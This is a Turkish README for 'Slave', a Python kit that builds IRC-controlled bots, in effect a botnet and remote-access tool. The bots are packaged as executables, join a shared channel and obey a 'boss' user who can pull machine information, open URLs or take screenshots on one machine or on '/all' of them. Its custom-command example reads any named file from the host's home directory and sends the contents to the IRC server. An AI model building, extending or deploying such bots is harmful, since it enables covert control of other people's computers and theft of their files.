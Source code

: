 # SLAVE

Slave, Python ile yazılmış özelleştirilebilir bot oluşturmaya yarayan bir yazılımdır. [IRC](https://tr.wikipedia.org/wiki/Internet_Relay_Chat) protokolü üzerinden, yazılan botlar ile haberleşir.

## Yükleme
### Pip ile kurulum
```bash
$ pip install slave-irc
```
### Local kurulum
```bash
$ git clone https://github.com/bufgix/slave
$ cd slave
$ python setup.py install
```

Slave, gerek executable dosya oluşturmada gerekse bağımlıklıları kurmada `pipenv` i kullanır. `pipenv` hakkında daha fazla bilgiye [buradan](https://realpython.com/pipenv-guide/) ulaşabilirsiniz.


## Kullanım
### Basit bot oluşturma
```python
# basic_bot.py

from slave.lib.bot import BotV2


config = {
    'host': 'chat.freenode.net',
    'port': 6667,
    'channel': "#slavebotpool666",
    'boss_name': 'boss666',
    'bot_prefix': "SLAVEBOT"
}
BotV2.read_config_from_dict(config)
BotV2.start()
```

`config` şunları içermelidir

| Key | Value |
|---|---|
| `host` | IRC server (varsayılan `chat.freenode.net`) |
| `port` |  IRC server portu (varsayılan `6667`)|
| `channel`| Bağlanılacak kanal ismi. (varsayılan `#slavebotpool666`)|
| `boss_name` | Botları yönetecek kullanıcın ismi (varsayılan `boss666`) |
| `bot_prefix`| Bot ön eki (varsayılan `SLAVEBOT`) |

## Çalıştırılabilir dosya oluşturma
---
Slave, direkt olarak çalıştırabilir dosya oluşturmanıza olanak sağlar. Bunu yaparlen [PyInstaller](https://www.pyinstaller.org) kullanır.

Yukarıda yazdığımız botu çalıştırılabilir dosya yapmak için:
```bash
$ python slave basic_bot.py
[i] Source: C:\Users\user\your_bot\basic_bot.py
[i] Creating executable file...
[*] Created executable file. Check C:\Users\user\path\your_bot\dist
```

Oluşan `dist/` dizinini altında `basic_bot.exe` dosyası artık kullanıma hazır.

`basic_bot.exe` yi çalıştırdıktan sonra 5-10 saniye içinde `config` de belirlediğiniz şekilde IRC'ye bağlanır.

Buradan sonra `config` de belirlediğiniz `bos_name` ile aynı olarak IRC server ve channel'e girin. Ardından botlarınıza emir vermeye başlayabilirsiniz.

## Nasıl komut vereceksiniz
Slave botlarına emir vermek için `$` ön eki getirilir.
```
$info bfr24s
```   
```
$visit bfr24s https://google.com
```

gibi. Komuttan sonraki ilk parametre genelde vereceğiniz botun idsini alır. Eğer bütün botlara bu komutu vermek istiyorsanız `bot_id` yerine `/all` yazabilirsiniz. 

```
$visit /all https://google.com
```

`BOtV2` nin sağladığı komutlar ve kullanımları aşağıdaki gibidir

| Command |  Desc | Syntax  |
|---|---|---|
| quit  | Kill bot  | `$quit [/all \| <bot_id>]`  |
|  info |  Information of bot machine  | `$info [/all \| <bot_id>]`  |
| message | Message show with tkinter  |  `$message [/all \| <bot_id>] <message> <msec>` |
| visit  | Open url with webbroser  | `$visit [/all \| <bot_id>] <url>` |
| screenshot  | Take sceenshot and send your email(Only Gmail)  | `$screenshot [/all \| <bot_id>] <email> <password>`|
| help | Help text of command  |  `$help <bot_id> <cmd>` |



Botlarınızı her yerden yönetebilirsiniz
* Web: [Kiwi](https://kiwiirc.com/nextclient/)
* Android: [AndroidIRC](https://play.google.com/store/apps/details?id=com.androirc&hl=tr)
* IOS: [Mutter](https://apps.apple.com/tr/app/mutter-irc-client/id1059224189?l=tr)


## Nasıl kendi komutlarımı yazarım ?
Slave, kendi özel botunuzu yazmanızı sağlar. Bunu yapmak için `Bot` sınıfının `@register` decelerator'unu kullanmanız gerekir.

Şimdi kendimiz bir komut yazalım. Yazacağımız komut argüman olarak verdiğimiz dosya ismini okuyup içindekileri servera göndersin. Komutun söz dizimi şöyle olsun.
```
$read [/all | <bot_id>] <file_name>
```

```python
# bot_custom.py

from slave.lib.bots import BotBasic

config = {
    'host': 'chat.freenode.net',
    'port': 6667,
    'channel': "#slavebotpool666",
    'boss_name': 'boss666',
    'bot_prefix': "SLAVEBOT"
}
BotBasic.read_config_from_dict(config)
BotBasic.bot_type = "MyCustomBot"

@BotBasic.register('read', all=True, on_connect=False, help_text="Read from file $read [/all | <bot_id>] <file_name>")
def read_file(bot, args):
    pass

BotBasic.start()
```

Görüldügü gibi `register()` ilk paramtere olarak komut dizisini alır. `all=` keywordu, `<bot_id>` yerine `/all` kullanmamızı ve bütün botlarda aynı anda komutumuzun çalıştırılmasını sağlar. `on_connect=` Bu, eğer True ise yazdığınız komut servera bağlandığı anda çalışır. `help_text=` ise komutumuzun imzasıdır. Burada komutun nasıl kullanılacağı hakkında bilgi verebilirsiniz.

Komut fonksyonu iki parametre almak zorundadır. Birinci parametre olarak `Bot` objesi alır. Bu server ile bot arasında iletişimi sağlar.

```bot.send_text(text: str) -> None```

Servera text mesajı göndermeyi sağlar.

`bot.exit_server() -> None`

Botun serverdan ayrılmasını sağlar

`bot.send_command_help() -> None`

Var olan komutları ve bilgilerini servera gönderir.

İkinci argüman olan args ise argüman listesini alır.

![img](https://i.resimyukle.xyz/Vfy4BS.png)

şimdi komutumuzu yazmaya devam edelim
```python
from pathlib import Path

...

@BotBasic.register('read', all=True, on_connect=False, help_text="Read from file $read [/all | <bot_id>] <file_name>")
def read_file(bot, args):
    path = str(Path(f"~/{args[1]}").expanduser())
    with open(path, 'r') as f:
        bot.send_text(f.read())

...

```

Her şey hazır. Şimdi test etmek için `bot_custom.py` yi çalıştırabiliriz.
```bash
$ python bot_custom.py
```
`file.txt`
```
Im secret
Don't read me
```

![img](https://i.resimyukle.xyz/ybHK7z.png)

Tabi dosyayı okumdadan önce var olup olmadığını kontrol etmek önemlidir. Eğer var olmayan bir dosyaya erişmeye çalışırsanız bot, serverla haberleşmeyi kesecektir.


Yukardaki örnekte daha az komut olduğunu görmüşsünüzdür. Bunun nedeni `BotBasic` sınıfının `BotV2` ye göre daha az komut içermesi. Hem kendi komutlarınızı hem de `BotV2` deki standart komutları birleştirmek için
```python
from slave.lib.bots import BotBasic, BotV2

...

BotBasic.use_other_bot_commands(BotV2)
BotBasic.start()
```
![img](https://i.resimyukle.xyz/05VUGy.png)

Botunuzun hazır olduğunu düşünüyorsanız artık [çalıştırılabilir dosya](#çalıştırılabilir-dosya-oluşturma) yapabilirsiniz.


## LICENSE: [MIT](https://github.com/bufgix/slave/blob/master/LICENSE)


